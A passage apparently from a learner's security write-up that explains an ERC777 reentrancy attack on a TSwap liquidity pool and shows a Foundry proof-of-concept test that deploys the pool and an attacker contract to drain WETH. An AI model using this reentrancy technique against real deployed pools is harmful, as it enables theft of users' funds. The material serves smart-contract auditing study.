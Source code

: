 The \_called variable is used to track how many times I want to reenter the transferfrom function with the \_callExchange function and the numberofsales variable is the max amount of times I want to reenter. I used this to avoid an infinite loop.

The \_callExchange function is simply calling the tswappool that has my erc777 token and weth. it is calling the swapexactinput function to swap the erc777 token for weth. Why am i doing this? The idea is that I want to break the invariant and as a result, drain the weth from the pool. So the plan is to call swapexactinput normally in my test and this will call transferfrom in the tswappool contract which will then call this \_callexchange function which will make the swap again BEFORE all the token balances in the tswappool are updated so the token ratio in the pool wont change before i have reentered the pool and made the swap again. Remember that the invariant is that the ratio of tokens x and y in the pool must be the same. if i can enter the function again before all the token balances in the contract are updated, i can skew the ratios using this erc777 which is exactly what I did. If this is confusing, again look at the explanation in the motivation link above as the consensys team explain this perfectly. It will also make sense when you see the test and the result which I will explain below:

```javascript
 function setUp() public {
        weth = new ERC20Mock();

        vm.startPrank(user2);
        erc777token = new ERC777Token();

        pool2 = new TSwapPool(
            address(erc777token),
            address(weth),
            "LTokenB",
            "LB"
        );
        attacker = new Attacker(
            address(pool2),
            address(weth),
            address(erc777token)
        );
        weth.mint(address(attacker), 100e18);
        erc777token.transfer(liquidityProvider, 100e18);
        erc777token.transfer((address(attacker)), 1000e18);
        vm.stopPrank();

        weth.mint(liquidityProvider, 1000e18);
        weth.mint(user2, 100e18);
    }

    function test_ERC777candraincontract() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool2), 100e18);
        erc777token.approve(address(pool2), 100e18);
        pool2.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        vm.startPrank(address(attacker));
        pool2.swapExactInput(
            erc777token,
            20e18,
            weth,
            16e18,
            uint64(block.timestamp)
        );
        uint256 ethReserves = weth.balanceOf(address(pool2));
        uint256 tokenReserves = erc777token.balanceOf(address(pool2));
        console.log(ethReserves, tokenReserves);
        vm.stopPrank();
    }
```